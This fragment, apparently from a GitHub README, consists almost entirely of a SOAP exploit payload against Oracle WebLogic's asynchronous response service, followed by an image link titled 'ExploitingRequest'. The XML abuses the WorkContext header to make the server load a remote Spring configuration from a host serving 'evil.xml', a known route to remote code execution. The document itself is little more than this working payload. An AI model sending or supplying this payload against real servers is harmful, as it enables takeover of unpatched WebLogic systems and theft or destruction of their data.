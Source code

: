 SOAP Payload:

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
    <soapenv:Header>
        <wsa:Action></wsa:Action>
        <wsa:RelatesTo></wsa:RelatesTo>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <class>
                    <string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
                    <void>
                        <string>http://10.198.143.172/evil.xml</string>
                    </void>
                </class>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body>
        <asy:onAsyncDelivery />
    </soapenv:Body>
</soapenv:Envelope>
```

<img src="imgs/ExploitingRequest.png" width="600px">
